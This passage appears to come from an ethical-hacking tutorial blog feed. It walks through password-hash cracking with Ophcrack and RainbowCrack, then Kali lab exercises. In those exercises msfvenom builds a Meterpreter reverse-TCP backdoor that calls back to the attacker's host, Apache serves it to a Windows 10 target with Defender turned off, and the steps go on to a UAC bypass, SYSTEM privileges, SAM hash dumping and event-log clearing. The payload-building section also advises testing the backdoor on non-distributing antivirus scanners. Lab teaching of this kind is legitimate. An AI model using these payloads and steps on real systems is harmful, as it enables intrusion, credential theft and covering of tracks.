<h2 class="wp-block-heading" id="using-ophcrack-to-crack-the-hashes">Using Ophcrack to crack the hashes<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/2-SAM-Hashes.html#using-ophcrack-to-crack-the-hashes"></a></h2>


<ol class="wp-block-list">
<li>Launch the Ophcrack application.</li>


<li>Click on <strong>Load</strong> and select <strong>PWDUMP file</strong></li>
</ol>


<figure class="wp-block-image"></figure>


<ol class="wp-block-list">
<li>Next, you will need to <a href="https://ophcrack.sourceforge.io/tables.php">download</a> tables to perform the cracking. Select the <strong>Vista free</strong> to download.</li>


<li>Go to the Ophcrack and click the <strong>Tables</strong> menu to load the Table.</li>


<li>On the Table Selection window, select the <strong>Vista free</strong>, and click <strong>Ok</strong>.</li>
</ol>


<p>This table_vista_free is a pre-computed table for reversing cryptographic hash functions and recovering plaintext passwords up to a certain length. The selected&nbsp;<strong>table_vista_free</strong>&nbsp;is installed under the name&nbsp;<strong>Vista free</strong>, which is represented by a&nbsp;<strong>green</strong>&nbsp;colored bullet.</p>


<ol class="wp-block-list">
<li>Click <strong>Crack</strong> on the menu bar. Ophcrack begins to crack passwords. This action will take a few minutes.</li>
</ol>


<h1 class="wp-block-heading" id="rainbow-tables">Rainbow Tables</h1>


<p>RainbowCrack is a computer program that generates rainbow tables for use in password cracking.</p>


<p>RainbowCrack&nbsp;<a href="https://project-rainbowcrack.com/documentation.htm">Documentation</a></p>


<h3 class="wp-block-heading" id="overview-of-rainbow-tables">Overview of Rainbow Tables<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/3-Rainbow-tables.html#overview-of-rainbow-tables"></a></h3>


<p>A rainbow table is a pre-computed table for reversing cryptographic hash functions, typically used for cracking password hashes. Tables are usually used in recovering the plaintext password consisting of a limited set of characters, up to a certain length.</p>


<h3 class="wp-block-heading" id="objectives">Objectives<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/3-Rainbow-tables.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Short introduction to rainbow tables and use them to crack the hashes and obtain plain text passwords.</li>
</ul>


<h2 class="wp-block-heading" id="generate-rainbow-table">Generate Rainbow Table<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/3-Rainbow-tables.html#generate-rainbow-table"></a></h2>


<p>To obtain rainbow tables you can&nbsp;<a href="https://freerainbowtables.com/">download</a>&nbsp;or manually generate using&nbsp;<code>rtgen</code>&nbsp;that comes with&nbsp;<code>rainbowcrack</code>&nbsp;package.</p>


<p>Install RainbowCrack CLI version:</p>


<p><code>sudo apt-get install rainbowcrack</code></p>


<p><strong>GUI</strong>&nbsp;version: https://project-rainbowcrack.com/</p>


<p><strong>Usage example</strong>:&nbsp;<code>rtgen hash_algorithm charset plaintext_len_min plaintext_len_max table_index chain_len chain_num part_index</code></p>


<figure class="wp-block-table"><table class="has-fixed-layout"><thead><tr><th>Hash Algorithm</th><th>Description</th></tr></thead><tbody><tr><td><strong>hash_algorithm</strong></td><td>Rainbow table is hash algorithm specific. Rainbow table for a certain hash algorithm only helps to crack hashes of that type. The rtgen program natively support lots of hash algorithms like lm, ntlm, md5, sha1, mysqlsha1, halflmchall, ntlmchall, oracle-SYSTEM and md5-half. In the example above, we generate md5 rainbow tables that speed up cracking of md5 hashes.</td></tr><tr><td><strong>charset</strong></td><td>The charset includes all possible characters for the plaintext. “loweralpha-numeric” stands for “abcdefghijklmnopqrstuvwxyz0123456789”, which is defined in configuration file charset.txt.</td></tr><tr><td><strong>plaintext_len_min plaintext_len_max</strong></td><td>These two parameters limit the plaintext length range of the rainbow table. In the example above, the plaintext length range is 1 to 7. So plaintexts like “a” and “abcdefg” are likely contained in the rainbow table generated. But plaintext “abcdefgh” with length 8 will not be contained.</td></tr><tr><td><strong>table_index1</strong></td><td>The table_index parameter selects the reduction function. Rainbow table with different table_index parameter uses different reduction function.</td></tr><tr><td><strong>chain_len1</strong></td><td>This is the rainbow chain length. Longer rainbow chain stores more plaintexts and requires longer time to generate.</td></tr><tr><td><strong>chain_num1</strong></td><td>Number of rainbow chains to generate. Rainbow table is simply an array of rainbow chains. Size of each rainbow chain is 16 bytes.</td></tr><tr><td><strong>part_index</strong></td><td>To store a large rainbow table in many smaller files, use different number in this parameter for each part and keep all other parameters identical.</td></tr></tbody></table></figure>


<p><strong>Example:</strong></p>


<p><code>rtgen md5 loweralpha-numeric 1 7 0 3800 33554432 0</code></p>


<p>CPU will be busy computing rainbow chains. On system with multi-core processor, all cores are fully utilized.</p>


<p>To pause table generation, just press Ctrl+C and rtgen program will exit. Next time if the rtgen program is executed with exactly same parameters, table generation is resumed.</p>


<p><strong>This command takes hours to complete with ordinary processor.</strong></p>


<p>After generating the rainbow table you need to sort it. Rainbowcrack comes with&nbsp;<code>rtsort</code>&nbsp;program, that sorts the rainbow chains by end point to make binary search possible so the processor can access them quicker.</p>


<p><code>rtsort *.rt</code></p>


<h2 class="wp-block-heading" id="cracking">Cracking<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/3-Rainbow-tables.html#cracking"></a></h2>


<p>To display the usage and options just type&nbsp;<code>rcrack</code>.</p>


<pre class="wp-block-code"><code>usage: ./rcrack path &#91;path] &#91;...] -h hash
       ./rcrack path &#91;path] &#91;...] -l hash_list_file
       ./rcrack path &#91;path] &#91;...] -lm pwdump_file
       ./rcrack path &#91;path] &#91;...] -ntlm pwdump_file
path:              directory where rainbow tables (*.rt, *.rtc) are stored
-h hash:           load single hash
-l hash_list_file: load hashes from a file, each hash in a line
-lm pwdump_file:   load lm hashes from pwdump file
-ntlm pwdump_file: load ntlm hashes from pwdump file

implemented hash algorithms:
    lm HashLen=8 PlaintextLen=0-7
    ntlm HashLen=16 PlaintextLen=0-15
    md5 HashLen=16 PlaintextLen=0-15
    sha1 HashLen=20 PlaintextLen=0-20
    sha256 HashLen=32 PlaintextLen=0-20

examples:
    ./rcrack . -h 5d41402abc4b2a76b9719d911017c592
    ./rcrack . -l hash.txt
</code></pre>


<h1 class="wp-block-heading" id="l0phtcrack">L0phtCrack</h1>


<p>L0phtCrack is a password auditing tool that contains features such as scheduling, hash extraction from 64-bit Windows versions, multiprocessor algorithms, and network monitoring and decoding. It can import and crack UNIX password files from remote Windows machines.</p>


<p>Free Trial: https://www.l0phtcrack.com/<br>Documentation: https://www.l0phtcrack.com/doc/</p>


<h1 class="wp-block-heading" id="exploiting-client-side-vulnerabilities-and-establishing-a-vnc-session">Exploiting Client Side Vulnerabilities and Establishing a VNC session</h1>


<p>Attackers use client-side vulnerabilities to exploit unpatched software, thereby attaining access to the machine on which the software is installed.</p>


<p>VNC enables attackers to remotely access and control computers targeted from another computer or mobile device, wherever they are in the world. At the same time, it is also used by administrator and organizations throughout every industry sector for a range of different scenarios and use cases, including providing IT desktop support to colleagues and friends, and accessing systems and services on the move.</p>


<h3 class="wp-block-heading" id="objectives">Objectives<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/4-VNC-Session.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>How to exploit client-side vulnerabilities and establish a VNC session.</li>
</ul>


<h3 class="wp-block-heading" id="requisites">Requisites<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/4-VNC-Session.html#requisites"></a></h3>


<ul class="wp-block-list">
<li>Kali Linux virtual machine (Attacker).</li>


<li>Windows 10 virtual machine (Target).</li>
</ul>


<h2 class="wp-block-heading" id="launch-metasploit-framework">Launch Metasploit Framework<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/4-VNC-Session.html#launch-metasploit-framework"></a></h2>


<p>Launch Kali Linux and open the Terminal window and type:</p>


<p><code>msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=10.0.2.42 LPORT=444 -o /root/Desktop/Test.exe</code></p>


<p><strong>Note</strong>: LHOST is the IP address of your Kali machine.</p>


<p>This command will generate Test.exe, a malicious file on Desktop as shown in below:</p>


<pre class="wp-block-code"><code>No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: /root/Desktop/Test.exe
</code></pre>


<p>You can also try this by using the&nbsp;<code>msfconsole</code>.</p>


<p>To check the malicious file that you created, go to https://nodistribute.com/ or https://antiscan.me and upload the file:</p>


<figure class="wp-block-image"></figure>


<p>This site will perform a scan over 20 AV softwares databases.&nbsp;<strong>Do not upload your backdoors or any file to virusTotal.</strong></p>


<h2 class="wp-block-heading" id="share-the-malicious-file-on-target">Share the malicious file on target<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/4-VNC-Session.html#share-the-malicious-file-on-target"></a></h2>


<p>Now create a directory to share this file with the target machine provide the permissions and copy the file from Desktop to shared location:</p>


<p>Create a directory on html folder:<br><code>mkdir /var/www/html/share/</code></p>


<p>Change the mode for the share to&nbsp;<strong>755</strong>:<br><code>chmod -R 755 /var/www/html/share/</code></p>


<p>Change the ownership of that folder to&nbsp;<strong>www-data</strong>:<br><code>chown -R www-data:www-data /var/www/html/share/</code></p>


<p>Now copy the malicious file to the shared location:<br><code>cp /root/Desktop/Test.exe /var/www/html/share/</code></p>


<p>Next, start the apache service:<br><code>service apache2 start</code></p>


<p>Open a new terminal window and type&nbsp;<code>msfconsole</code>&nbsp;to launch Metasploit Framework.</p>


<p>Use the&nbsp;<code>multi/handler</code>&nbsp;to capture the session.</p>


<figure class="wp-block-image"></figure>


<p>In msfconsole:</p>


<ol class="wp-block-list">
<li><code>use multi/handler</code></li>


<li><code>set payload windows/meterpreter/reverse_tcp</code></li>


<li>set the <code>LHOST</code> to your Kali IP address and <code>LPORT</code> to 444</li>


<li><code>run</code> the exploit</li>
</ol>


<h4 class="wp-block-heading" id="reverse-tcp">Reverse TCP<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/4-VNC-Session.html#reverse-tcp"></a></h4>


<p>A reverse shell (also known as a connect-back) is the exact opposite: it requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally the attacker receives the shell.</p>


<p>This module exploits memory corruption vulnerability within Microsoft’s HTML engine (mshtml). When parsing an HTML page containing a recursive CSS import, a C++ object is deleted and later reused.</p>


<h2 class="wp-block-heading" id="on-windows-machine">On Windows machine<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/4-VNC-Session.html#on-windows-machine"></a></h2>


<p>Remember to deactivate all Windows Defender parameters.</p>


<p>Launch the browser and type the IP address of the Kali machine that are running apache webserver and download the&nbsp;<strong>Test.exe</strong>.</p>


<p>In my case is&nbsp;<code>http://10.0.2.42/share</code></p>


<figure class="wp-block-image"></figure>


<p>Double click&nbsp;<strong>Test.exe</strong>.<br>You will get a Security Warning window, click&nbsp;<strong>run</strong>.</p>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="meterpreter">Meterpreter<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/4-VNC-Session.html#meterpreter"></a></h2>


<p>Switch to Kali Linux machine and check if there is any session that are opened in the Meterpreter Shell as shown below:</p>


<figure class="wp-block-image"></figure>


<p>Meterpreter is a Metasploit attack payload that provides an interactive shell from which an attacker can explore the target machine and execute code.</p>


<p>Useful commands: https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/</p>


<p>About Meterpreter: https://doubleoctopus.com/security-wiki/threats-and-tools/meterpreter/</p>


<h2 class="wp-block-heading" id="remote-view-in-kali-linux">Remote View in Kali Linux<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/4-VNC-Session.html#remote-view-in-kali-linux"></a></h2>


<p>Now, you can create a VNC session on Windows 10 machine remotely by typing:</p>


<p><code>run vnc</code></p>


<p>This command will open a VNC session of the Target’s machine as shown below:</p>


<figure class="wp-block-image"></figure>


<p>Useful links:</p>


<ul class="wp-block-list">
<li><a href="https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf">Metasploit Cheat Sheet &#8211; SANS</a></li>


<li><a href="https://www.blueliv.com/downloads/Meterpreter_cheat_sheet_v0.1.pdf">Meterpreter Cheat Sheet</a></li>


<li><a href="https://widesecurity.net/linux/msfvenom-cheat-sheet/">Msfvenom Cheat Sheet</a></li>
</ul>


<h1 class="wp-block-heading" id="escalating-privileges">Escalating Privileges</h1>


<p>Privilege Escalation is the demonstration of misusing a bug, configuration imperfection, or design oversight in a working framework or programming application to increase lifted access to assets that are regularly shielded from an application or client.</p>


<p>Once attackers gain access to the target system, they start looking for different ways to escalate their privilege in the system. They can exploit vulnerability, design flaw or configuration oversight in the OS or software applications on the target system to gain elevated access to resources that are normally protected from an application or user. The privilege escalation can be&nbsp;<strong>vertical</strong>&nbsp;or&nbsp;<strong>lateral</strong>.</p>


<h3 class="wp-block-heading" id="objectives">Objectives<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Demonstrate how to escalate privileges on a victim machine by exploiting its vulnerabilities.</li>
</ul>


<h3 class="wp-block-heading" id="requisites">Requisites<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#requisites"></a></h3>


<ul class="wp-block-list">
<li>Kali Linux virtual machine.</li>


<li>Windows 10 virtual machine.</li>
</ul>


<h2 class="wp-block-heading" id="create-a-backdoor">Create a Backdoor<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#create-a-backdoor"></a></h2>


<p>To create the malicious executable file, type this command and put your Kali IP address on&nbsp;<code>LHOST</code>&nbsp;option:</p>


<p><code>msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.0.2.42 -f exe &gt; Desktop/Exploit.exe</code></p>


<p>This command will create the Windows executable file named&nbsp;<strong>Exploit.exe</strong>&nbsp;and will be saved on the Kali&nbsp;<strong>desktop</strong>.</p>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="share-the-exploitexe-file">Share the Exploit.exe file<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#share-the-exploitexe-file"></a></h2>


<p><strong>First</strong>&nbsp;of, we need to setup the apache configuration and the shared folder.</p>


<h3 class="wp-block-heading" id="apache-configuration">Apache configuration<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#apache-configuration"></a></h3>


<p><em>If you didn’t have apache2 installed, run&nbsp;<strong>apt-get install apache2</strong>.</em></p>


<p>Navigate to the apache2 folder, open the&nbsp;<strong>apache2.conf</strong>&nbsp;configuration file, and add a new line:<br><code>vim /etc/apache2/apache2.conf</code></p>


<p>Add a new line with the command:&nbsp;<code>servername localhost</code>&nbsp;and save the file.</p>


<figure class="wp-block-image"></figure>


<p>Create a new directory inside html folder:<br><code>mkdir /var/www/html/share/</code></p>


<p>Change the&nbsp;<a href="https://www.tutonics.com/2012/12/linux-file-permissions-chmod-umask.html">mode</a>&nbsp;for the share to&nbsp;<strong>755</strong>:<br><code>chmod -R 755 /var/www/html/share/</code></p>


<p>Change the ownership of that folder to&nbsp;<strong>www-data</strong>:<br><code>chown -R www-data:www-data /var/www/html/share/</code></p>


<p><em>To see the configuration of sharing options type:</em><br><code>ls -la /var/www/html/ | grep share</code></p>


<pre class="wp-block-code"><code>drwxr-xr-x 2 www-data www-data  4096 Dec 18 20:52 share
</code></pre>


<p>Now copy the malicious file to the shared location:<br><code>cp /root/Desktop/Test.exe /var/www/html/share/</code></p>


<p>Start the apache service to run the http server:<br><code>service apache2 start</code></p>


<h2 class="wp-block-heading" id="perform-exploitation">Perform Exploitation<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#perform-exploitation"></a></h2>


<p>Start the Metasploit Framework by typing:</p>


<p><code>msfconsole</code></p>


<p>Select the&nbsp;<strong>multi/handler</strong>&nbsp;and set the payload to&nbsp;<strong>meterpreter/reverse_tcp</strong>:</p>


<p><code>use exploit/multi/handler</code><br><code>set payload windows/meterpreter/reverse_tcp</code></p>


<p>Set the&nbsp;<strong>LHOST</strong>&nbsp;to the Kali IP address:</p>


<p><code>set LHOST 10.0.2.42</code></p>


<p>Start the exploit on background:</p>


<p><code>exploit -j -z</code></p>


<pre class="wp-block-code"><code>&#91;*] Exploit running as background job 0.
&#91;*] Exploit completed, but no session was created.
&#91;*] Started reverse TCP handler on 10.0.2.42:4444 
</code></pre>


<h2 class="wp-block-heading" id="run-the-exploit">Run the Exploit<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#run-the-exploit"></a></h2>


<p>Switch to the&nbsp;<strong>Windows 10</strong>&nbsp;machine, launch the&nbsp;<strong>browser</strong>&nbsp;and type the URL:</p>


<p><code>http://10.0.2.42/share/</code>&nbsp;<em>(Change to the IP address of your your Kali).</em></p>


<figure class="wp-block-image"></figure>


<p>Click&nbsp;<strong>Exploit.exe</strong>&nbsp;to download the backdoor file. Once the file is downloaded navigate to the download location and open the file to execute.</p>


<p>If an&nbsp;<strong>Open File &#8211; Security Warning</strong>&nbsp;window appears, click&nbsp;<strong>Run</strong>.</p>


<figure class="wp-block-image"></figure>


<p>Switch back to the Kali machine. Meterpreter session has been successfully opened, as shown below:</p>


<pre class="wp-block-code"><code>&#91;*] Sending stage (180291 bytes) to 10.0.2.15
&#91;*] Meterpreter session 1 opened (10.0.2.42:4444 -&gt; 10.0.2.15:49804) at 2019-12-18 21:04:09 -0500
</code></pre>


<p>To interact with the available sessions, you can use the command&nbsp;<code>sessions</code>&nbsp;or&nbsp;<code>sessions -i</code>&nbsp;to list the current sessions opened.&nbsp;<strong>To open any session, select the ID by issuing the command:</strong></p>


<p><code>sessions &lt;ID&gt;</code></p>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="establish-a-session">Establish a Session<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#establish-a-session"></a></h2>


<p><a href="https://www.blueliv.com/downloads/Meterpreter_cheat_sheet_v0.1.pdf">[+] Meterpreter Cheat Sheet</a></p>


<p>Open the current Meterpreter session and type:</p>


<p><code>getuid</code></p>


<pre class="wp-block-code"><code>meterpreter &gt; getuid
Server username: DESKTOP-ICB2IQ4\dummy  
</code></pre>


<p>You will notice that the Meterpreter server is running with the normal user privileges. You will not be able to execute command (such as&nbsp;<code>hashdump</code>, which dumps the user account hashes located in the&nbsp;<strong>SAM</strong>&nbsp;file;&nbsp;<code>clearev</code>, which clears the event logs remotely; and so on.) that requires administrative/root privileges.</p>


<p>Let’s check this out by executing this command:</p>


<p><code>run post/windows/gather/smart_hashdump</code></p>


<pre class="wp-block-code"><code>meterpreter &gt; run post/windows/gather/smart_hashdump

&#91;*] Running module against DESKTOP-ICB2IQ4
&#91;*] Hashes will be saved to the database if one is connected.
&#91;+] Hashes will be saved in loot in JtR password file format to:
&#91;*] /root/.msf4/loot/20191218220106_default_10.0.2.15_windows.hashes_986306.txt
&#91;-] Insufficient privileges to dump hashes!
</code></pre>


<p><strong>[-] Insufficient privileges to dump hashes!</strong></p>


<p>The command fails to dump the hashes from the SAM file located in Windows 10 and returns an error stating that Insufficient Privileges to dump hashes.</p>


<p>From this, it is evident that Meterpreter server requires admin privileges to perform such actions.</p>


<p>Now, we can try to escalate the privileges by issuing a&nbsp;<code>getsystem</code>&nbsp;command that attempts to elevate the user privileges.</p>


<p><code>getsystem -t 1</code></p>


<p><em>which uses the Service &#8211;&nbsp;<a href="https://securityintelligence.com/identifying-named-pipe-impersonation-and-other-malicious-privilege-escalation-techniques/">Named Pipe Impersonation</a>&nbsp;(In Memory/Admin) Technique.</em></p>


<pre class="wp-block-code"><code>meterpreter &gt; getsystem -t 1
&#91;-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
&#91;-] Named Pipe Impersonation (In Memory/Admin)
</code></pre>


<p>The command fails to escalate privileges and returns an error&nbsp;<strong>(Access is Denied).</strong></p>


<p>From the above result, it is evident that the security configuration of the Windows 10 machine is blocking you from gaining unrestricted access to it.</p>


<h2 class="wp-block-heading" id="perform-privilege-escalation">Perform Privilege Escalation<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#perform-privilege-escalation"></a></h2>


<p>We can try to bypass the user account control setting that is blocking you from gaining unrestricted access to machine.</p>


<p>Move the current Meterpreter session to the background. Just type&nbsp;<code>background</code>.</p>


<p>Use the&nbsp;<strong>bypassuac_fodhelper</strong>&nbsp;exploit for Windows:<br><code>use exploit/windows/local/bypassuac_fodhelper</code></p>


<p>Type&nbsp;<code>options</code>&nbsp;to see the configurations, and you will observer theres only session setting, type&nbsp;<code>sessions</code>&nbsp;to see the ID of the previous meterpreter session and set to the current exploit:</p>


<p><code>set SESSION &lt;ID&gt;</code></p>


<p>Type&nbsp;<code>run</code>&nbsp;to exploit:</p>


<figure class="wp-block-image"></figure>


<p><strong>The BypassUAC exploit has successfully bypassed the UAC setting on the Windows 10 machine and another Meterpreter session has opened.</strong></p>


<p>Now, the first thing is check the current User ID status of Meterpreter by issuing&nbsp;<code>getuid</code>&nbsp;command. You will observe that Meterpreter server is still running with&nbsp;<strong>normal user privileges</strong>.</p>


<p><code>getuid</code></p>


<pre class="wp-block-code"><code>meterpreter &gt; getuid
Server username: DESKTOP-ICB2IQ4\dummy  
</code></pre>


<p>At this stage, we shall re-issue the&nbsp;<code>getsystem</code>&nbsp;command with the&nbsp;<code>-t 1</code>&nbsp;switch, in an attempt to&nbsp;<strong>elevate the privileges</strong>.</p>


<p><code>getsystem -i 1</code></p>


<pre class="wp-block-code"><code>meterpreter &gt; getsystem -i 1

...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
</code></pre>


<p><strong>This time, the command has successfully escalated user privileges and returns a message stating got system, as shown above.</strong></p>


<p>Now, type&nbsp;<code>getuid</code>&nbsp;again.</p>


<pre class="wp-block-code"><code>meterpreter &gt; getuid
Server username: NT AUTHORITY\SYSTEM
</code></pre>


<p>The meterpreter session is now running with&nbsp;<strong>SYSTEM</strong>&nbsp;privileges (<strong>NT AUTHORITY\SYSTEM</strong>).</p>


<p>Let’s try to obtain the&nbsp;<strong>hashes</strong>&nbsp;located in the&nbsp;<strong>SAM</strong>&nbsp;file of Windows 10 by typing:</p>


<p><code>run post/windows/gather/smart_hashdump</code></p>


<figure class="wp-block-image"></figure>


<p>This time, the meterpreter successfully extracted the NTLM hashes and displayed them as shown in above. Thus, we have successfully escalated privileges by exploiting the Windows 10 machine’s vulnerabilities.</p>


<p><strong>You can now execute commands like (clearev, which clears the event logs remotely, etc)</strong></p>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Vulnerability Scanning</title>
		<link>../../../2024/11/18/vulnerability-scanning/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Mon, 18 Nov 2024 10:27:36 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[SQL, Botnets and XSS Attacks Tools and Resources]]></category>
		<guid isPermaLink="false">../../../index.html?p=8866</guid>

					<description><![CDATA[Vulnerability Scanning refers to auditing hosts, ports, and services running in a network to assess the security posture and search for security loopholes. It determines the possibility of network security....]]></description>
										<content:encoded><![CDATA[
<p></p>


<p>Vulnerability Scanning refers to auditing hosts, ports, and services running in a network to assess the security posture and search for security loopholes.</p>


<p>It determines the possibility of network security attacks, evaluating the organization’s systems and network for vulnerabilities such as missings patches, unnecessary services, weak authentication, and weak encryption. Vulnerability scanning is a critical component of any penetration testing assignment.</p>


<h2 class="wp-block-heading" id="nessus">Nessus<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/4-Vulnerability-Analysis/Overview-and-Tools.html#nessus"></a></h2>


<figure class="wp-block-image"></figure>


<p>Nessus allows to remotely audit a network and determine if it has been broken into or misued in some way. It also provides the ability to locally audit a specific machine for vulnerabilities.</p>


<p>Official website: https://www.tenable.com/downloads/nessus</p>


<h2 class="wp-block-heading" id="gfi-languard">GFI LanGuard<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/4-Vulnerability-Analysis/Overview-and-Tools.html#gfi-languard"></a></h2>


<figure class="wp-block-image"></figure>


<p>GFI LanGuard is a software similar to Nessus, it scans networks and ports to detect, assess, and correct any security vulnerabilities found.</p>


<p>Official website: https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard</p>


<h2 class="wp-block-heading" id="nikto">Nikto<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/4-Vulnerability-Analysis/Overview-and-Tools.html#nikto"></a></h2>


<figure class="wp-block-image"></figure>


<p>Nikto Web Scanner is a Web server scanner that tests Web servers for dangerous file/CGIs, outdated server software and other problems.</p>


<p>Nikto is an Open Source (GPL) web server which performs comprehensive tests against web servers for multiple items, including over 6400 potentially dangerous files/CGIs, checks for outdated versions of over 1200 servers, and version specific problems on over 270 servers. It also scans server configuration items such as the presence of multiple index files, HTTP server options, and attempts to identify installed web servers and software. Scan items and plugins are frequently updated and can be automatically updated. Nikto is not a stealth tool, it scans a webserver in the shortest time but gets logged in an IDS.</p>


<p>Official repository: https://github.com/sullo/nikto</p>


<p></p>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Network Enumeration</title>
		<link>../../../2024/11/18/network-enumeration/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Mon, 18 Nov 2024 10:21:08 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<guid isPermaLink="false">../../../index.html?p=8863</guid>

					<description><![CDATA[What is Enumeration? Enumeration is the process of extracting user names, machine names, network resources, shares, and services from a system, and its conducted in an intranet environment. In this....]]></description>
										<content:encoded><![CDATA[
<h1 class="wp-block-heading" id="what-is-enumeration">What is Enumeration?</h1>


<p>Enumeration is the process of extracting user names, machine names, network resources, shares, and services from a system, and its conducted in an intranet environment.</p>


<p>In this phase, the attacker creates an active connection to the system and performs directed queries to gain more information about the target. The gathered information is used to identify the vulnerabilities or weak points in system security and tries to exploit in the System gaining phase.</p>


<h1 class="wp-block-heading" id="enumerating-services">Enumerating Services</h1>


<p>Extracting user names, machine names, network resources, shares, and services from a system.</p>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Scan all the machines on a given network or subnet.</li>


<li>List all alive hosts.</li>


<li>Determine open ports on a given node.</li>


<li>Find if any port has firewall restriction.</li>


<li>Enumerate all the services running on the port along with their respective versions.</li>
</ul>


<h3 class="wp-block-heading" id="requisites">Requisites:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#requisites"></a></h3>


<ul class="wp-block-list">
<li>Windows Server 2012 or 2016 machine.</li>


<li>Kali Linux machine.</li>


<li>Another version of Windows (7, 8, 10 or Server).</li>
</ul>


<h2 class="wp-block-heading" id="ping-sweep---nmap">Ping Sweep &#8211;&nbsp;<code>Nmap</code><a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#ping-sweep---nmap"></a></h2>


<p>You can perform a ping sweep in Nmap by using ping scan only (<code>-sP</code>) on the whole subnet.</p>


<p>The ping sweep on Nmap will scan all the nodes on the subnet and starts displaying all the hosts that are up and running, along with their respective MAC Addresses and device information.</p>


<p>Open a new Terminal window on your Kali Linux and type::</p>


<p><code>nmap -sP 10.0.2.1/24</code></p>


<pre class="wp-block-code"><code>Nmap scan report for 10.0.2.1
Host is up (0.0011s latency).
MAC Address: 22:44:99:33:11:55 QEMU virtual NIC)
Nmap scan report for 10.0.2.2
Host is up (0.00084s latency).
MAC Address: 22:44:99:33:11:55 (QEMU virtual NIC)
Nmap scan report for 10.0.2.3
Host is up (0.00097s latency).
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.22
Host is up (0.00075s latency).
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.23
Host is up (0.00066s latency).
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.37
Host is up (0.00051s latency).
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.15
Host is up.
Nmap done: 256 IP addresses (7 hosts up) scanned in 2.29 seconds
</code></pre>


<h2 class="wp-block-heading" id="ping-sweep---bash">Ping Sweep &#8211;&nbsp;<code>Bash</code><a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#ping-sweep---bash"></a></h2>


<p>I will show another way to check live hosts on the subnet with a little bit of&nbsp;<strong>Bash scripting</strong>. You can scroll to the next section if you are not interested.</p>


